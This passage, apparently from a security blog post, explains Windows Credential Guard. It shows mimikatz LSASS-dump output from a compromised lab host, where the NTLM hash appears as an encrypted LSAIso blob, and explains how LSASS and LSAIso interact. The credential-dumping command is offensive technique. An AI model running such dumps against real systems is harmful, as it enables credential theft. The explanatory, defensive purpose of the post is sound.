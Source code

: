 Again, a user “MrX” in the domain “Powercorp” has stored secrets within the LSASS. We managed to compromise the system (FS01) and dump the LSASS process using mimikatz:

```bash
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1834584 (00000000:001bfe58)
Session           : Interactive from 0
User Name         : MrX
Domain            : POWERCORP
Logon Server      : DC01
Logon Time        : 4/16/2024 5:47:07 PM
SID               : S-1-5-21-2327940651-2805324425-2454453111-1105
        msv :
         [00000003] Primary
         * Username : MrX
         * Domain   : POWERCORP
           * **LSA Isolated Data: NtlmHash**
             KdfContext: 6a242a25a189909a3abd8db27de4c0579cb4974f6c8195e5fd9fa25af807de6c
             Tag       : c3f7564b29c32dc32bde686a416a64ce
             AuthData  : 0100000000000000000000000000000001800000340000004e746c6d48617368
             Encrypted : f3be3d31ad691207dd7b0a5f7db83ed3bdc8f51c2f192f425ee3a3744bd65b3d103f60f56380ce66a9d565d36d457f3d44b70c42
         * DPAPI    : 54c7b03dcb81f702018503ea1b1bde12
        tspkg :
        wdigest :
         * Username : MrX
         * Domain   : POWERCORP
         * Password : (null)
        kerberos :
         * Username : MrX
         * Domain   : POWERCORP.LOCAL
         * Password : (null)
        ssp :
        credman :
```

Notice the difference at MSV. It even tells that the NTLM is isolated: “**LSA Isolated Data: NtlmHash**“. We can also find a encrypted string instead of a NTLM hash. We cannot use this encrypted string to authenticate.

## Getting a better understanding of Local Security Authority Isolation (LSAIso)

Like said, when Credential Guard is enabled, a process called LSAIso (LSA Isolated) runs inside the secure VM (virtual machine). LSASS and LSAIso can communicate through advanced local procedure calls (ALPCs). LSASS and LSAIso communicate with each other through ALPC and RPC.

When the LSASS process wants to protect a secret, it can call upon LSAIso to encrypt it. The encrypted secret is then returned to LSASS. Once an NTLM hash is protected, the LSASS process only holds an isolated secret (an encrypted blob), like we are seeing from the mimikatz output when credential guard is enabled.
